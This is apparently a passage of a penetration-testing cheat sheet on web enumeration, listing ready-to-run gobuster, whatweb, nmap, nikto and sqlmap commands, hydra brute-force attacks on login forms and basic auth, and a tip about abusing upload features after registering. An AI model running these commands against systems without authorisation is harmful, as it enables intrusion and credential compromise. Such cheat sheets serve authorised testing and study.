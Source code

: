 ```text
for file in $(ls /usr/share/seclists/Discovery/Web-Content); do gobuster -u http://$ip/ -w /usr/share/seclists/Discovery/Web-Content/$file -e -k -l -s "200,204,301,302,307" -t 20 ; done
```

#### Banner grabbing

```text
./whatweb $ip # identifies all known services
```

#### Methods testing

```text
nmap --script http-methods --script-args http-methods.url-path='/test' $ip
```

#### Brute Forcing authentication

```text
hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
```

#### Vulnerability scanning:

```text
nikto -host http://$ip
```

```text
nmap --script=http-vuln* $ip 
```

#### Test against SQLI

```text
sqlmap -u "http://$ip/?query" --data="user=foo&pass=bar&submit=Login" --level=5 --risk=3 --dbms=mysql  
```

#### Coldfusion vulnerability scanning

```text
nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip
```

#### Brute force basic auth

```text
hydra -l user -P /usr/share/wordlists/rockyou.txt -f $ip http-get /path
```

{% hint style="info" %}
If you can **register yourself** on the site like a normal users - do this. There maybe an upload feature of the site which you can take advantage of.
{% endhint %}

### WebDav
